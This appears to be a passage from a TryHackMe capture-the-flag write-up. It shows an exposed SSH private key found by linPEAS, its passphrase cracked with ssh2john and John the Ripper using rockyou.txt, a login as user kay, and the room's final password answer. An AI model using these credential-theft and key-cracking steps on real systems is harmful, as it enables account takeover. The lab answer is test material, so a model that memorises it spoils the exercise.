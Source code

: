 * ### linPEAS.sh scan

	Found user `kay's` `id_rsa` readable by user `jan` (logged in via ssh) in `/home/kay/.ssh/`


<br>

## Attempting login (user: kay)

> ssh -i kay_id_rsa kay@10.10.99.188

Login unsuccessful. id_rsa encrypted.


<br>

## Bruteforcing SSH key:

* ### Attempting id_rsa decryption using JohnTheRipper

	> python3 /opt/john/run/ssh2john.py kay_id_rsa > ssh2john.txt
	
	> /opt/john/run/john ssh2john.txt --wordlist=/opt/wordlists/rockyou.txt

	```
	beeswax          (kay_id_rsa)     
	```


<br>

## Attempting login (user: kay) (passphrase: beeswax)

> ssh -i kay_id_rsa kay@10.10.99.188

Login successful.


<br>

# Final Password

> cat /home/kay/pass.bak

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```


<br>

# THM Questions:

* _Q6_: What is the final password you obtain? <br> _A_: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`


<br>

---
---